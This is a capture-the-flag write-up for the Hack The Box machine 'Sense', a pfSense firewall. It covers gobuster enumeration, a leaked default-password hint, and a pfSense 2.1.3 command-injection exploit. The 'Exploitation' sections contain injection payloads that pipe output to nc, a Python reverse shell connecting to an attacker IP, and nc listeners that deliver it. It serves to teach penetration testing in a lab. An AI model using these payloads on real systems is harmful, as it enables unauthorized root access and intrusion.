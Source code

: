 ```yaml
---
layout: single
title: Sense Writeup
date: '2020-01-15 07:32:44'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-15-sense-writeup/sense.png
    text: "https://app.hackthebox.eu/machines/Sense"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```

An interesting box that teaches the value of thorough enumeration.…

## Enumeration

Starting with Autorecon we find that only ports 80 & 443 are open. While waiting for the web tests to complete I went to port 80 in Firefox and found I was redirected to HTTPS and that the system seemed to be a PFSense firewall.

Googling the default PFsense credentials and trying them didn't turn anything up, and some other common username/password combinations also failed. Given this is basically a security appliance it wasn't much of a surprise that the usual enumeration techniques that Autorecon runs didn't turn up anything.

Looking at ExploitDB for PFsense vulnerabilities turns up quite a few, however they generally need credentials.

At this point it's time to run some more intensive enumeration, specifically try and brute force directories and files in the webtree. Autorecon runs a light touch brute force using the Web-Content/common.txt list from [Seclists](https://github.com/danielmiessler/SecLists), but this won't always find what is needed. I started another `gobuster` with a more intensive list, looking for some common files that can be left around on a web server:

```bash
gobuster dir -u https://10.10.10.60:443/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403" -x "txt,html,php,asp,aspx,bak"
```
Given the number of extensions this took a couple of hours but turned up a couple of interesting files, including one called system-users.txt:
```
    ####Support ticket###
    
    Please create the following user
    
    username: Rohit
    password: company defaults
```
If we then try and login as Rohit:pfsense (which is the default PFsense password) it fails, but trying rohit:pfsense we manage to login.

## Exploitation

On logging in we can see that PFsense is running the 2.1.3 release. Exploitdb lists [this](https://www.exploit-db.com/exploits/43560) vulnerability which seems relevant.

To test it out we can start up Burp Suite and then set our browser to send traffic through the Burp Suite proxy. If we browse to the affected URL we can capture the request and send it to the Repeater component so we can edit it:

![Screenshot-from-2020-01-14-16-00-02](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-00-02.png)

From the CVE details we know that you can specify arbitrary shell commands by using a semicolon. We can test this is working, by sending a sleep command:


![Screenshot-from-2020-01-14-16-01-19](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-01-19.png)

If this takes 10+ seconds to return, we have command execution. As this is an HTTP request data needs to be URL Encoded, hence the + instead of a space.

Due to the way the vulnerability works, nothing is outputted to stdout and so won't appear in the results of the web request. However we can pipe the results to `nc`, which is handily installed in this case.

If we send `database=queues;whoami|nc+<ip_address>+<port>` with a listener on our machine, we can get the output of the command.

![Screenshot-from-2020-01-14-16-07-39](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-07-39.png)

So, running as root, that's handy as we won't need to do any privilege escalation.

### Putting it all together

So, now we know we can run remote commands, lets see about getting a shell.

First we take a common Python reverse [shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and tidy it up into a script:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.2",9876))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
and save this as `exploit`.

We then start a listener on port 1234 and tell it to send the contents of the `exploit` file whenever anything connects:
```bash
    nc -lvp 1234 < exploit
```
We start another listener to catch the connections spawned by the reverse shell
```bash
    nc -lvp 9876
```
And finally we use Burp Suite to send our exploit:

`database=queues;nc+10.10.14.2+1234|python`

Which will send any data received from the connection to port 1234 (our Python reverse shell) to the Python interpreter. We need to `ctrl-c` the connection to port 1234 but after doing this we catch a root shell on 9876 which makes it trivial to grab the flags.

